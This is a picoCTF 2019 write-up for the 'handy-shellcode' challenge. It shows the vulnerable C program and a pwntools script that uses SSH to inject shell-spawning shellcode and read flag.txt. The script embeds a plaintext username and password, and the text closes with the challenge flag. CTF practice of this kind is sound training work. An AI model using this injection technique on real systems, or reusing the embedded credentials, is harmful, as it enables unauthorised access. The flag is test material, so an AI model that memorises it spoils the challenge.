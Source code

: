 # Problem
This [program](https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. [Source](https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln.c).

## Hints:
You might be able to find some good shellcode online.

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln
wget https://2019shell1.picoctf.com/static/60f2c9fc4aa125e85132fe694eff65d8/vuln.c
```

First, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

The function ```vuln()``` just reads the buffer from the input, and after that, ```main()``` will execute the buffer.

All we need to do is the send a [shellcode](https://en.wikipedia.org/wiki/Shellcode) to the program.

We can get a shellcode from [shell-storm](http://shell-storm.org/shellcode/), or use those from [pwntools](https://github.com/Gallopsled/pwntools)

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6')
  p = s.process('./vuln')

print p.recv()
log.info('Sending shellcode: {}'.format(asm(shellcraft.i386.linux.sh())))
p.sendline(asm(shellcraft.i386.linux.sh()))

if debug:
  p.interactive()
else:
  p.sendline('ls')
  p.sendline('cat flag.txt')
  p.sendline('exit')

  print p.recvall()
```

Flag: picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}